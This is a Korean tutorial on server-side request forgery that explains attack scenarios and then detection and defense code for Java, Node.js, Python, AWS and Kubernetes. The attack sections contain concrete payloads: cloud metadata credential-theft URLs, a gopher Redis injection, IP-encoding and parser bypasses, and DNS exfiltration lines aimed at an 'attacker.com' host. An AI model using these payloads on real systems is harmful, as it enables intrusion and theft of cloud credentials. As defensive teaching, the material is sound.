


# SSRF (Server-Side Request Forgery)

## SSRF란

서버가 사용자 입력으로 받은 URL에 직접 요청을 보내는 경우, 공격자가 그 URL을 조작해서 서버 내부 네트워크나 로컬 서비스에 접근하는 공격이다. 서버가 대신 요청을 보내주는 셈이라, 외부에서는 접근할 수 없는 리소스에 손이 닿는다.

웹훅 URL 입력, 이미지 URL로 썸네일 생성, PDF 렌더링용 URL 입력 같은 기능이 대표적인 SSRF 진입점이다.

---

## 공격 흐름

기본적인 흐름을 시퀀스로 보면 이렇다.



핵심은 서버가 외부에서 직접 접근할 수 없는 내부 대역(`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `169.254.169.254` 등)에 요청을 대신 보낸다는 점이다. 공격자가 직접 `http://192.168.1.10:8080/admin`에 접근하면 차단되지만, 서버를 경유하면 통과한다.

---

## 내부 네트워크 접근 시나리오

### 내부 서비스 스캔

```
POST /api/webhook
{
  "url": "http://192.168.1.1:8080/health"
}
```

응답 코드나 응답 시간 차이로 내부 네트워크에 어떤 서비스가 살아있는지 파악할 수 있다. 포트 스캔도 가능하다.

### 내부 API 호출

```
POST /api/preview
{
  "url": "http://internal-admin.service:3000/users"
}
```

내부 서비스끼리는 인증 없이 통신하는 경우가 많다. 마이크로서비스 환경에서 서비스 간 통신에 별도 인증이 없으면, SSRF 한 번으로 내부 API를 그대로 호출할 수 있다.

### Redis/Memcached 접근

```
POST /api/fetch
{
  "url": "http://localhost:6379"
}
```

Redis가 인증 없이 로컬에서 돌고 있으면, `gopher://` 프로토콜을 이용해 Redis 명령어를 직접 날릴 수 있다.

```
gopher://127.0.0.1:6379/_SET%20pwned%20true%0D%0A
```

---

## 클라우드 메타데이터 탈취

클라우드 환경에서 SSRF가 특히 위험한 이유다.

### AWS IMDSv1

AWS EC2 인스턴스는 `169.254.169.254`에서 메타데이터 서비스를 제공한다. IMDSv1은 단순 GET 요청으로 접근할 수 있어서, SSRF로 바로 털린다.

```
# IAM Role 크레덴셜 탈취
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Role 이름 확인 후 크레덴셜 획득
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/my-role-name
```

응답에 `AccessKeyId`, `SecretAccessKey`, `Token`이 그대로 들어있다. 이걸로 S3, DynamoDB 등 AWS 리소스에 접근할 수 있다.

### GCP

```
# 서비스 계정 토큰 획득
GET http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

GCP는 `Metadata-Flavor: Google` 헤더가 필요하지만, 일부 HTTP 클라이언트 라이브러리가 리다이렉트를 따라갈 때 커스텀 헤더를 유지하는 경우가 있어서 우회 가능한 상황이 존재한다.

### Azure

```
GET http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```

`Metadata: true` 헤더가 필요하지만, GCP와 비슷한 우회 가능성이 있다.

---

## URL 파싱 우회 기법

단순히 `127.0.0.1`이나 `localhost`를 차단하는 것만으로는 부족하다. 우회 방법이 많다.

### IP 표현 변환

```
# 전부 127.0.0.1을 가리킨다
http://127.0.0.1
http://0x7f000001          # hex
http://2130706433           # decimal
http://0177.0.0.1           # octal
http://127.1                # 축약형
http://0                    # 0.0.0.0 → 일부 시스템에서 localhost로 동작
http://[::1]                # IPv6 loopback
http://[0:0:0:0:0:ffff:127.0.0.1]  # IPv6 mapped IPv4
```

### DNS를 이용한 우회

```
# 127.0.0.1로 resolve되는 도메인
http://localtest.me
http://spoofed.burpcollaborator.net   # 공격자가 DNS를 제어하는 도메인
http://your-domain.com                # A 레코드를 127.0.0.1로 설정
```

### URL 파서 혼동

```
# @ 앞은 userinfo로 해석
http://allowed.com@evil.com

# fragment나 쿼리로 파서 혼동
http://allowed.com#@127.0.0.1
http://127.0.0.1\t.allowed.com    # 일부 파서에서 탭 무시

# URL 인코딩
http://127.0.0.%31
```

### 리다이렉트 이용

allowlist에 있는 외부 URL이 내부 주소로 리다이렉트하게 만든다.

```python
# 공격자 서버
@app.route('/redirect')
def redirect():
    return redirect('http://169.254.169.254/latest/meta-data/', code=302)
```

서버가 리다이렉트를 자동으로 따라가면, 최종 목적지는 메타데이터 서비스다.

---

## Blind SSRF

응답이 클라이언트로 돌아오지 않는 경우다. 서버가 URL을 페치하지만 결과를 그대로 보여주지 않는 형태(예: 백그라운드 잡으로 처리, 서버 로그에만 기록, 텍스트 추출 후 일부만 노출). 응답을 못 보니까 SSRF가 없다고 판단하기 쉬운데, 실제로는 동일한 위험이 그대로 남아있다.

### 시간 기반 탐지

가장 단순한 1차 확인 방법이다. 응답 시간 차이로 요청이 실제로 도달했는지 추정한다.

```
http://10.0.0.1:80/         → 정상 응답하면 빠름 (수십~수백 ms)
http://10.0.0.1:81/         → 닫힌 포트면 SYN 후 RST 받고 빠르게 종료
http://10.0.0.1:65535/      → 필터링되는 IP/포트면 timeout (수 초)
http://blackhole-ip:80/     → 블랙홀 라우트면 응답이 안 오고 timeout
```

응답 시간을 30회 정도 반복 측정해서 분포를 보면 포트가 열려있는지 닫혀있는지 정도는 추론할 수 있다. 정확하지는 않지만 내부망 매핑 첫 단계로 쓴다.

### DNS 기반 OOB(Out-Of-Band) 채널

서버가 응답을 안 내려줘도, 서버가 DNS resolve를 시도한다는 사실은 외부에서 관측 가능하다. 공격자가 DNS를 제어하는 도메인을 주면, 그 도메인의 NS 서버에 쿼리가 도착하는 순간 SSRF 발생을 확인할 수 있다.

```
# 공격자가 제어하는 DNS 서버 (예: ns.attacker.com)
http://abc123.attacker.com/

# 서버가 이 URL을 fetch하려고 시도하면:
# 1. abc123.attacker.com 에 대한 DNS 쿼리가 ns.attacker.com에 도달
# 2. 공격자는 NS 로그에서 쿼리 발생 시각/소스 IP를 본다
# 3. 추가로 응답에서 데이터를 인코딩해서 빼낼 수 있다
```

실무에서는 Burp Collaborator(상용)나 [interactsh](https://github.com/projectdiscovery/interactsh)(오픈소스, ProjectDiscovery)를 쓴다. CLI로 도메인 하나 받아서 페이로드에 박아넣고, 외부에서 들어온 인터랙션 로그를 stream으로 본다.

```bash
# interactsh 클라이언트로 일회용 도메인 받기
interactsh-client

# 출력된 도메인 (예: abc123.oast.fun)을 SSRF 페이로드에 사용
# http://abc123.oast.fun/probe

# 이후 interactsh 콘솔에 DNS 쿼리, HTTP 요청이 실시간 출력됨
```

### 데이터 유출(Exfiltration) 패턴

DNS 쿼리에 데이터를 인코딩해서 빼내는 기법이다. 응답을 직접 받을 수 없을 때 쓴다.

```
# 환경 변수, 파일 내용 등을 base32 인코딩해서 서브도메인에 박는다
http://$(whoami | base32).attacker.com/
http://$(cat /etc/hostname).attacker.com/

# IMDS 응답을 직접 가져갈 수 없는 경우, 일단 IMDS에 요청 보내고
# 그 응답을 다시 다른 SSRF 페이로드의 호스트명에 넣어서 외부로 유출
```

DNS 라벨 길이 제한(63 바이트), 전체 도메인 길이 제한(253 바이트)이 있어서 큰 데이터는 청크로 쪼개야 한다. 내부 시스템 식별이나 짧은 토큰 유출에는 충분하다.

### 디버깅 팁

Blind SSRF가 의심되면 이 순서로 확인한다.

1. interactsh 도메인을 페이로드에 넣고 DNS 쿼리가 도착하는지 확인 — 도달하면 SSRF 확정
2. DNS는 도착하지만 HTTP가 안 오는 경우 — 아웃바운드 방화벽이 외부 HTTP를 막고 있을 수 있음. 그래도 DNS는 내부 resolver가 외부로 뱉으니 도달
3. HTTP까지 도착하면 User-Agent, 소스 IP 헤더에서 어떤 서비스가 페치하는지 추정
4. 시간 기반 측정으로 내부 IP/포트 매핑
5. 이 정보를 토대로 클래식 SSRF로 전환 시도(예: 응답 일부가 노출되는 경로 발굴)

---

## 탐지와 모니터링

방어가 뚫렸을 때 빠르게 잡으려면 운영 측면 탐지가 필수다.

### IMDS 접근 알람

`169.254.169.254`로 향하는 아웃바운드 요청은 정상 워크로드에서도 발생한다(SDK가 자격 증명을 가져올 때). 다만 패턴이 정해져 있다. 정상 트래픽 외의 호출은 즉시 알람을 띄운다.

VPC Flow Logs를 CloudWatch Logs Insights로 분석한다.

```
fields @timestamp, srcAddr, dstAddr, dstPort
| filter dstAddr = "169.254.169.254"
| filter srcAddr like /^10\./
| stats count() by srcAddr, bin(5m)
| sort count desc
```

특정 인스턴스에서 평소 대비 IMDS 호출이 급증하면 메타데이터 탈취 시도일 가능성이 있다. 워크로드별 baseline을 두고 임계치를 잡는다.

### 내부 대역 비정상 트래픽

웹훅이나 이미지 페치 같은 SSRF 후보 서비스가 내부 대역으로 요청을 보내면 즉시 로그를 남긴다. HTTP 클라이언트를 래핑해서 destination IP를 검증하면서 동시에 로깅한다.

```python
import logging
import ipaddress

INTERNAL_NETWORKS = [
    ipaddress.ip_network("10.0.0.0/8"),
    ipaddress.ip_network("172.16.0.0/12"),
    ipaddress.ip_network("192.168.0.0/16"),
    ipaddress.ip_network("169.254.0.0/16"),
    ipaddress.ip_network("127.0.0.0/8"),
]

def check_destination(ip: str, original_url: str, user_id: str):
    addr = ipaddress.ip_address(ip)
    for net in INTERNAL_NETWORKS:
        if addr in net:
            logging.warning(
                "ssrf_attempt user=%s url=%s resolved=%s network=%s",
                user_id, original_url, ip, net
            )
            raise PermissionError(f"내부 대역 차단: {ip}")
```

여기서 발생하는 `ssrf_attempt` 로그를 Datadog/Splunk/Wazuh에 넣어 알람을 건다. 같은 user_id에서 짧은 시간에 다양한 내부 IP를 시도하면 스캔으로 판단한다.

### WAF 룰

ModSecurity로 1차 필터링을 건다. 애플리케이션 단 검증과 별개로 깔아두면 우회 시도 자체를 줄인다.

```
# ModSecurity 룰 예시 — 메타데이터 IP 차단
SecRule ARGS|REQUEST_BODY "@rx (?i)(169\.254\.169\.254|metadata\.google\.internal|metadata\.azure\.com)" \
    "id:1001,phase:2,deny,status:403,msg:'Cloud metadata SSRF attempt'"

# 사설 대역 IP 차단
SecRule ARGS "@rx (?i)(127\.0\.0\.1|localhost|0\.0\.0\.0|10\.\d+\.\d+\.\d+|192\.168\.\d+\.\d+|172\.(1[6-9]|2\d|3[0-1])\.\d+\.\d+)" \
    "id:1002,phase:2,deny,status:403,msg:'Private IP in request'"

# IP 표현 우회 차단
SecRule ARGS "@rx (?i)(0x[0-9a-f]{8}|2130706433|0177\.0\.0\.1)" \
    "id:1003,phase:2,deny,status:403,msg:'Encoded IP literal'"
```

WAF 룰만 믿으면 우회 기법 한두 개만 알면 뚫린다. 어디까지나 1차 방어선이고, 핵심 검증은 애플리케이션 코드에 있어야 한다.

### IDS/EDR

Wazuh, Falco 같은 호스트 기반 IDS로 IMDS 접근을 감지한다. EKS/ECS 환경이면 Falco 룰이 잘 맞는다.

```yaml
# Falco 룰 — 컨테이너에서 IMDS 접근 시 알람
- rule: Container Access to Cloud Metadata
  desc: A container made a request to the cloud metadata service
  condition: >
    container and
    (fd.sip = "169.254.169.254" or fd.sip = "fd00:ec2::254")
  output: >
    Cloud metadata access from container
    (container=%container.name image=%container.image.repository
     pid=%proc.pid command=%proc.cmdline destination=%fd.sip)
  priority: WARNING
  tags: [network, ssrf, mitre_credential_access]
```

평소에 IMDS 접근이 없는 컨테이너에서 호출이 발생하면 즉시 알람을 띄운다.

---

## 방어 방법

### 1. Allowlist 기반 필터링

가장 확실한 방법은 허용된 도메인/IP만 요청을 보내는 것이다. Denylist는 우회 기법이 너무 많아서 신뢰하기 어렵다.

```java
// Spring - 허용 도메인 검증
public class UrlValidator {

    private static final Set<String> ALLOWED_HOSTS = Set.of(
        "api.github.com",
        "hooks.slack.com"
    );

    public boolean isAllowed(String urlString) {
        try {
            URI uri = new URI(urlString);
            String host = uri.getHost();
            String scheme = uri.getScheme();

            // HTTP/HTTPS만 허용. gopher, file, ftp 등 차단
            if (!"https".equals(scheme)) {
                return false;
            }

            return host != null && ALLOWED_HOSTS.contains(host.toLowerCase());
        } catch (URISyntaxException e) {
            return false;
        }
    }
}
```

allowlist를 쓸 수 없는 경우(사용자가 임의 URL을 입력해야 하는 기능)에는 아래 방법들을 조합한다.

### 2. 방어 의사 결정

검증 단계는 한 번에 끝나지 않는다. 입력 URL이 들어왔을 때 거치는 결정 흐름을 정리하면 이렇다.



핵심은 두 가지다. resolve된 IP로 직접 연결해서 DNS rebinding을 막고, 리다이렉트는 자동으로 따라가지 않는다.

### 3. DNS Resolution 후 IP 검증

URL의 호스트를 먼저 DNS resolve하고, resolve된 IP가 내부 대역인지 확인한다. 단, DNS rebinding 공격에 취약하므로 다음 절(DNS Rebinding 대응)과 함께 적용해야 한다.

```java
// Spring - IP 대역 검증
import java.net.InetAddress;

public class SsrfProtection {

    public boolean isInternalIp(String host) throws Exception {
        InetAddress[] addresses = InetAddress.getAllByName(host);

        for (InetAddress addr : addresses) {
            if (addr.isLoopbackAddress()
                || addr.isLinkLocalAddress()
                || addr.isSiteLocalAddress()
                || addr.isAnyLocalAddress()) {
                return true;
            }

            // 169.254.169.254 (클라우드 메타데이터) 명시적 차단
            byte[] bytes = addr.getAddress();
            if (bytes.length == 4
                && (bytes[0] & 0xFF) == 169
                && (bytes[1] & 0xFF) == 254) {
                return true;
            }
        }
        return false;
    }

    public boolean isSafeUrl(String urlString) throws Exception {
        URI uri = new URI(urlString);
        String scheme = uri.getScheme();

        if (!"https".equals(scheme) && !"http".equals(scheme)) {
            return false;
        }

        String host = uri.getHost();
        if (host == null || isInternalIp(host)) {
            return false;
        }

        int port = uri.getPort();
        if (port != -1 && port != 80 && port != 443) {
            return false;
        }

        return true;
    }
}
```

### 4. DNS Rebinding 대응

DNS rebinding은 이렇게 동작한다.

1. 서버가 `evil.com`을 resolve한다 → 외부 IP 반환 (검증 통과)
2. 서버가 실제 요청을 보낸다 → 이때 다시 resolve하면 `127.0.0.1` 반환
3. 결과적으로 내부 주소에 요청이 간다

대응 방법은 **resolve한 IP를 직접 사용**하는 것이다. 호스트명으로 다시 요청하지 않는다.

```javascript
// Node.js - DNS resolve 결과를 직접 사용
const dns = require('dns').promises;
const http = require('http');
const { URL } = require('url');

function isPrivateIp(ip) {
    const parts = ip.split('.').map(Number);
    if (parts.length !== 4) return true; // IPv6 등은 일단 차단

    return (
        parts[0] === 127 ||                          // loopback
        parts[0] === 10 ||                            // 10.0.0.0/8
        (parts[0] === 172 && parts[1] >= 16 && parts[1] <= 31) || // 172.16.0.0/12
        (parts[0] === 192 && parts[1] === 168) ||     // 192.168.0.0/16
        (parts[0] === 169 && parts[1] === 254) ||     // link-local, 메타데이터
        parts[0] === 0                                 // 0.0.0.0
    );
}

async function safeFetch(urlString) {
    const parsed = new URL(urlString);

    if (parsed.protocol !== 'https:' && parsed.protocol !== 'http:') {
        throw new Error('HTTP(S)만 허용');
    }

    const { address } = await dns.lookup(parsed.hostname);

    if (isPrivateIp(address)) {
        throw new Error(`내부 IP 차단: ${address}`);
    }

    // resolve된 IP로 직접 연결 (DNS rebinding 방지)
    return new Promise((resolve, reject) => {
        const options = {
            hostname: address,  // IP 직접 사용
            port: parsed.port || (parsed.protocol === 'https:' ? 443 : 80),
            path: parsed.pathname + parsed.search,
            method: 'GET',
            headers: {
                'Host': parsed.hostname  // 원래 호스트명은 Host 헤더로
            },
            timeout: 5000
        };

        const req = http.request(options, (res) => {
            // 리다이렉트 따라가지 않음
            if (res.statusCode >= 300 && res.statusCode < 400) {
                reject(new Error('리다이렉트 차단'));
                return;
            }

            let data = '';
            res.on('data', chunk => { data += chunk; });
            res.on('end', () => resolve(data));
        });

        req.on('timeout', () => {
            req.destroy();
            reject(new Error('타임아웃'));
        });
        req.on('error', reject);
        req.end();
    });
}
```

핵심은 두 가지다.

- DNS resolve 결과(IP)로 직접 연결한다. 호스트명으로 다시 요청하면 rebinding에 당한다.
- 리다이렉트를 자동으로 따라가지 않는다. 따라가야 한다면, 리다이렉트 대상 URL도 같은 검증을 거쳐야 한다.

### 5. IMDSv2 강제 (AWS)

AWS를 쓴다면 IMDSv2를 강제하는 게 SSRF의 클라우드 메타데이터 탈취를 막는 가장 직접적인 방법이다.

IMDSv1은 단순 GET 요청이라 SSRF로 바로 접근된다. IMDSv2는 먼저 PUT 요청으로 토큰을 발급받고, 그 토큰을 헤더에 넣어야 메타데이터에 접근할 수 있다.

```bash
# IMDSv2 강제 설정 (인스턴스별)
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567890abcdef0 \
    --http-tokens required \
    --http-put-response-hop-limit 1

# 새 인스턴스 생성 시
aws ec2 run-instances \
    --metadata-options "HttpTokens=required,HttpPutResponseHopLimit=1" \
    ...
```

`http-put-response-hop-limit 1`이 컨테이너 환경에서 왜 중요한지는 다음 절(컨테이너/k8s 환경)에서 자세히 다룬다.

Terraform으로 설정하는 경우.

```hcl
resource "aws_instance" "web" {
  # ...

  metadata_options {
    http_tokens                 = "required"  # IMDSv2 강제
    http_put_response_hop_limit = 1
    http_endpoint               = "enabled"
  }
}
```

조직 전체에 IMDSv1을 비활성화하려면 SCP(Service Control Policy)를 건다.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "ec2:RunInstances",
      "Resource": "arn:aws:ec2:*:*:instance/*",
      "Condition": {
        "StringNotEquals": {
          "ec2:MetadataHttpTokens": "required"
        }
      }
    }
  ]
}
```

### 6. 네트워크 레벨 격리

애플리케이션 서버에서 내부 서비스로의 아웃바운드를 제한한다.

- 웹훅 발송 등 외부 요청이 필요한 서비스는 별도 네트워크 세그먼트에 둔다
- 아웃바운드 방화벽 규칙으로 내부 대역(`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `169.254.0.0/16`)으로의 요청을 차단한다
- 프록시 서버를 통해 외부 요청을 중계하고, 프록시에서 목적지를 검증한다

---

## Python (requests / aiohttp) 예제

Django, Flask, FastAPI 환경에서 자주 쓰는 패턴이다. 핵심은 HTTPAdapter를 커스터마이징해서 connection 직전에 IP 검증을 끼워넣고, 리다이렉트를 자동 추적하지 않는 것이다.

### requests + 커스텀 HTTPAdapter

```python
import ipaddress
import socket
from urllib.parse import urlparse

import requests
from requests.adapters import HTTPAdapter
from urllib3.util import connection

INTERNAL_NETWORKS = [
    ipaddress.ip_network("10.0.0.0/8"),
    ipaddress.ip_network("172.16.0.0/12"),
    ipaddress.ip_network("192.168.0.0/16"),
    ipaddress.ip_network("169.254.0.0/16"),
    ipaddress.ip_network("127.0.0.0/8"),
    ipaddress.ip_network("0.0.0.0/8"),
    ipaddress.ip_network("::1/128"),
    ipaddress.ip_network("fc00::/7"),
    ipaddress.ip_network("fe80::/10"),
]


def is_internal(ip: str) -> bool:
    addr = ipaddress.ip_address(ip)
    return any(addr in net for net in INTERNAL_NETWORKS)


class SafeHTTPAdapter(HTTPAdapter):
    """connection을 만들 때 destination IP를 검증한다."""

    def get_connection(self, url, proxies=None):
        parsed = urlparse(url)
        # getaddrinfo로 모든 resolve 결과를 검증 (A 레코드가 여러 개면 전부 확인)
        infos = socket.getaddrinfo(parsed.hostname, parsed.port or 80)
        for family, _, _, _, sockaddr in infos:
            ip = sockaddr[0]
            if is_internal(ip):
                raise PermissionError(f"내부 IP 차단: {ip} (host={parsed.hostname})")
        return super().get_connection(url, proxies)


def safe_get(url: str, timeout: int = 5) -> requests.Response:
    parsed = urlparse(url)
    if parsed.scheme not in ("http", "https"):
        raise ValueError(f"허용되지 않는 스킴: {parsed.scheme}")

    session = requests.Session()
    session.mount("http://", SafeHTTPAdapter())
    session.mount("https://", SafeHTTPAdapter())

    return session.get(
        url,
        timeout=timeout,
        allow_redirects=False,  # 리다이렉트 자동 추적 금지
    )
```

`allow_redirects=False`가 핵심이다. 기본값이 `True`라 잊고 빼먹으면 우회된다. 리다이렉트를 따라가야 한다면 응답의 `Location`을 받아 직접 같은 검증을 거쳐 재호출한다.

여기에는 알려진 한계가 있다. `getaddrinfo`로 검증한 시점과 실제 connection이 일어나는 시점 사이에 DNS rebinding이 가능하다. 정확하게 막으려면 검증된 IP를 직접 connect하도록 `connection.create_connection`을 monkey-patch한다.

```python
import urllib3.util.connection as urllib3_connection

_original_create_connection = urllib3_connection.create_connection


def patched_create_connection(address, *args, **kwargs):
    host, port = address
    # resolve해서 IP 검증
    infos = socket.getaddrinfo(host, port)
    if not infos:
        raise PermissionError(f"DNS resolve 실패: {host}")

    family, _, _, _, sockaddr = infos[0]
    ip = sockaddr[0]
    if is_internal(ip):
        raise PermissionError(f"내부 IP 차단: {ip}")

    # 검증된 IP로 직접 연결 (호스트명 재resolve 없이)
    return _original_create_connection((ip, port), *args, **kwargs)


# 전역 적용 — 프로세스 시작 시 한 번
urllib3_connection.create_connection = patched_create_connection
```

전역 monkey-patch는 라이브러리 호환성 이슈가 있어서, 가능하면 SSRF 위험이 있는 호출 경로 전용 session으로 격리하는 쪽이 안전하다.

### aiohttp (FastAPI/비동기 환경)

```python
import asyncio
import ipaddress
import socket
from urllib.parse import urlparse

import aiohttp


async def resolve_safe(host: str, port: int) -> str:
    loop = asyncio.get_running_loop()
    infos = await loop.getaddrinfo(host, port)
    if not infos:
        raise PermissionError(f"DNS resolve 실패: {host}")

    family, _, _, _, sockaddr = infos[0]
    ip = sockaddr[0]

    if is_internal(ip):
        raise PermissionError(f"내부 IP 차단: {ip}")
    return ip


async def safe_fetch(url: str, timeout: float = 5.0) -> str:
    parsed = urlparse(url)
    if parsed.scheme not in ("http", "https"):
        raise ValueError(f"허용되지 않는 스킴: {parsed.scheme}")

    port = parsed.port or (443 if parsed.scheme == "https" else 80)
    ip = await resolve_safe(parsed.hostname, port)

    # 검증된 IP로 직접 연결, Host 헤더로 원래 호스트명 전달
    connector = aiohttp.TCPConnector(use_dns_cache=False)
    timeout_cfg = aiohttp.ClientTimeout(total=timeout)

    direct_url = f"{parsed.scheme}://{ip}:{port}{parsed.path or '/'}"
    if parsed.query:
        direct_url += f"?{parsed.query}"

    async with aiohttp.ClientSession(
        connector=connector,
        timeout=timeout_cfg,
    ) as session:
        async with session.get(
            direct_url,
            headers={"Host": parsed.hostname},
            allow_redirects=False,
            ssl=False if parsed.scheme == "http" else None,
        ) as resp:
            if 300 <= resp.status < 400:
                raise PermissionError("리다이렉트 차단")
            return await resp.text()
```

비동기 환경에서 DNS 캐시를 끄는 이유는, aiohttp의 내부 DNS 캐시가 호스트명을 다시 lookup해서 검증한 IP와 다른 IP에 연결할 가능성이 있기 때문이다. 검증한 IP로 직접 연결하면 이 문제가 사라진다.

---

## Spring에서 SSRF 방어 적용

실제 웹훅 기능에 SSRF 방어를 적용하는 예시다.

```java
@Service
public class WebhookService {

    private final SsrfProtection ssrfProtection;
    private final RestTemplate restTemplate;

    public WebhookService(SsrfProtection ssrfProtection) {
        this.ssrfProtection = ssrfProtection;

        // 리다이렉트 비활성화
        HttpComponentsClientHttpRequestFactory factory =
            new HttpComponentsClientHttpRequestFactory();
        CloseableHttpClient httpClient = HttpClients.custom()
            .disableRedirectHandling()
            .build();
        factory.setHttpClient(httpClient);
        factory.setConnectTimeout(5000);
        factory.setReadTimeout(5000);

        this.restTemplate = new RestTemplate(factory);
    }

    public void sendWebhook(String url, Object payload) {
        try {
            if (!ssrfProtection.isSafeUrl(url)) {
                throw new IllegalArgumentException("허용되지 않는 URL: " + url);
            }
        } catch (Exception e) {
            throw new IllegalArgumentException("URL 검증 실패", e);
        }

        restTemplate.postForEntity(url, payload, String.class);
    }
}
```

주의할 점.

- `RestTemplate`의 기본 설정은 리다이렉트를 따라간다. 반드시 비활성화한다.
- 타임아웃을 설정하지 않으면, 내부 서비스가 응답하지 않을 때 스레드가 묶인다.
- URL 검증과 실제 요청 사이에 시간 차가 있으면 DNS rebinding에 취약할 수 있다. resolve된 IP로 직접 요청하는 방식이 더 안전하다.

---

## 컨테이너와 k8s 환경

EKS pod에서 SSRF가 발생하면 영향 범위가 단순히 pod 안으로 끝나지 않는다. IMDS 접근 경로가 어떻게 구성되는지에 따라 노드 자체의 IAM Role을 탈취당할 수 있다.

### IRSA(IAM Roles for Service Accounts)

EKS에서 권장하는 방식이다. ServiceAccount에 IAM Role을 매핑하면 pod는 IMDS 대신 `STS AssumeRoleWithWebIdentity`를 통해 자격 증명을 받는다. 자격 증명 발급 경로가 IMDS가 아니라 외부 STS 엔드포인트라서, IMDS 접근 자체를 막아도 정상 동작한다.

이 환경에서 IMDS 접근을 차단하면 SSRF 위험이 크게 줄어든다. AWS VPC CNI에는 `AWS_VPC_K8S_CNI_EXTERNALSNAT`와는 별개로, IMDS를 pod 네트워크 네임스페이스에서 차단하는 옵션이 있다.

```yaml
# aws-node DaemonSet 환경 변수
env:
  - name: AWS_VPC_K8S_CNI_EXTERNALSNAT
    value: "false"
  - name: DISABLE_METRICS
    value: "false"
  # IMDS를 pod에서 접근 못 하게 차단 (권장)
  # 노드의 iptables에 169.254.169.254로의 트래픽을 DROP하는 룰을 박는다
```

또는 NetworkPolicy로 명시적으로 차단한다.

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-imds
spec:
  podSelector: {}  # 모든 pod
  policyTypes:
    - Egress
  egress:
    - to:
        - ipBlock:
            cidr: 0.0.0.0/0
            except:
              - 169.254.169.254/32  # IMDS 차단
              - 169.254.170.2/32    # ECS metadata
```

NetworkPolicy를 적용하려면 Calico 같은 CNI가 필요하다. 기본 VPC CNI는 NetworkPolicy를 지원하지 않으므로 별도 설치(예: Calico, Cilium)가 필요하다.

### http-put-response-hop-limit 1의 의미

기본값(2)은 IP 패킷의 TTL이 2까지 허용된다는 뜻이다. 컨테이너에서 호스트로 가는 hop이 1이고, 호스트에서 IMDS로 가는 hop이 1이라서 컨테이너 내부에서도 IMDS에 도달할 수 있다.

값을 1로 줄이면 호스트 입장에서는 여전히 도달하지만(TTL 1로 IMDS는 같은 링크), pod 네트워크 네임스페이스에서 시작한 패킷은 호스트 NAT을 거치며 TTL이 줄어 IMDS까지 도달하지 못한다.

```bash
aws ec2 modify-instance-metadata-options \
    --instance-id i-xxx \
    --http-tokens required \
    --http-put-response-hop-limit 1
```

EKS 매니지드 노드그룹에서는 launch template에 박는다.

```hcl
resource "aws_launch_template" "eks_node" {
  # ...
  metadata_options {
    http_endpoint               = "enabled"
    http_tokens                 = "required"
    http_put_response_hop_limit = 1
    instance_metadata_tags      = "disabled"
  }
}
```

이 설정은 hostNetwork를 쓰지 않는 일반 pod의 IMDS 접근만 막는다. `hostNetwork: true`인 pod는 노드와 같은 네임스페이스라 그대로 접근된다. system-level DaemonSet의 hostNetwork 사용 여부를 따로 점검해야 한다.

### IRSA + IMDS 차단 조합

운영에서 추천하는 구성은 이 조합이다.

